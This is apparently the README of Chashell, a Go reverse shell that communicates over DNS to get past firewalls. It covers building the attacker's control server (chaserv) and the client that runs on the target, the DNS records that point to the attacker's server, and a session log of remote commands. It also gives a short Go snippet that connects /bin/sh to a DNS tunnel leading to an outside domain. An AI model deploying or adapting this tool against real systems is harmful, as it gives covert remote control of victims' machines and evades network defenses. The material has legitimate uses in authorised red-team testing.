 # Chashell

## Reverse Shell over DNS

Chashell is a [Go](https://golang.org/) reverse shell that communicates over DNS. 
It can be used to bypass firewalls or tightly restricted networks.

It comes with a multi-client control server, named `chaserv`.

![Chaserv](img/chaserv.gif)

### Communication security

Every packet is encrypted using symmetric cryptography ([XSalsa20](https://en.wikipedia.org/wiki/Salsa20) + [Poly1305](https://en.wikipedia.org/wiki/Poly1305)), with a shared key between the client
and the server.

We plan to implement asymmetric cryptography in the future.

### Protocol

Chashell communicates using [Protocol Buffers](https://developers.google.com/protocol-buffers/) serialized messages. For reference, the Protocol Buffers structure (`.proto` file) is available in the `proto` folder.

Here is a (simplified) communication chart :

![Protocol](img/proto.png)

Keep in mind that every packet is encrypted, hex-encoded and then packed for DNS transportation.

### Supported systems

Chashell should work with any desktop system (Windows, Linux, Darwin, BSD variants) that is supported by the Go compiler.

We tested those systems and it works without issues :

* Windows (386/amd64)
* Linux (386/amd64/arm64)
* OS X (386/amd64)

### How to use Chaserv/Chashell

#### Building

Make sure the [GOPATH](https://github.com/golang/go/wiki/GOPATH) environment variable is correctly configured before running these commands.

Build all the binaries (adjust the domain_name and the encryption_key to your needs):


```
 export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
 export DOMAIN_NAME=c.vimmo.app
 make build
```

Build for a specific platform:

```
 make build-all OSARCH="linux/arm"
```

Build only the server:

```
$ make build-server
```

Build only the client (*chashell* itself):

```
$ make build-client
```

#### DNS Settings

* Buy and configure a domain name of your choice (preferably short).
* Set a DNS record like this : 

```
chashell 300 IN A [SERVERIP]
c 300 IN NS chashell.[DOMAIN].
```

#### Usage

Basically, on the server side (attacker's computer), you must use the `chaserv` binary. For the client side (i.e the target), use the `chashell` binary.

So:

* Run `chaserv` on the control server.
* Run `chashell` on the target computer.

The client should now connect back to `chaserv`:

```
[n.chatelain]$ sudo ./chaserv
chashell >>> New session : 5c54404419e59881dfa3a757
chashell >>> sessions 5c54404419e59881dfa3a757
Interacting with session 5c54404419e59881dfa3a757.
whoami
n.chatelain
ls /
bin
boot
dev
[...]
usr
var
```

Use the `sessions [sessionid]` command to interact with a client.
When interacting with a session, you can use the `background` command in order to return to the `chashell` prompt.

Use the `exit` command to close `chaserv`.

## Implement your own

The `chashell/lib/transport` library is compatible with the `io.Reader` / `io.Writer` interface. So, implementing a reverse shell is as easy as :

```go
cmd := exec.Command("/bin/sh")

dnsTransport := transport.DNSStream(targetDomain, encryptionKey)

cmd.Stdout = dnsTransport
cmd.Stderr = dnsTransport
cmd.Stdin = dnsTransport
cmd.Run()
```

## Debugging

For more verbose messages, add `TAGS=debug` at the end of the make command.

## To Do

* Implement asymmetric cryptography ([Curve25519](https://en.wikipedia.org/wiki/Curve25519), [XSalsa20](https://en.wikipedia.org/wiki/Salsa20) and [Poly1305](https://en.wikipedia.org/wiki/Poly1305))
* Retrieve the host name using the `InfoPacket` message.
* Create a *proxy/relay* tool in order to tunnel TCP/UDP streams (Meterpreter over DNS !).
* Better error handling.
* Get rid of dependencies.

## Credits

* Nicolas Chatelain <n.chatelain -at- sysdream.com>